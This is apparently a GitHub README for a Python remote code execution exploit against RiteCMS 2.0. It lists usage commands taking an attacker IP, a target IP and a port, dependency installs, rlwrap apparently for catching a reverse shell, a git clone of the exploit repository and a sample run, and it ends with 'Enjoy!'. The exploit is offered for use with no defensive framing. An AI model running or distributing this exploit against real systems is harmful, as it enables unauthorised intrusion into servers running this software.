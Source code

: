 # RiteCMS-2.0-Remote-Code-Execution
A Remote Code Execution python script to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```
## Steps to reproduce
```
git clone https://github.com/pjobsina/RiteCMS-2.0-Exploit-RCE.git && cd RiteCMS-2.0-Exploit-RCE
```
```
python3 ritecms2.0-exploit.py -i 192.168.1.10 -t 192.168.1.20 -p 4444
```
## NOTE
If first run does not work, try to run again.

## Screenshot
![image](https://github.com/user-attachments/assets/6b860f49-f0d4-40b2-a41f-886146336e8c)


Enjoy!
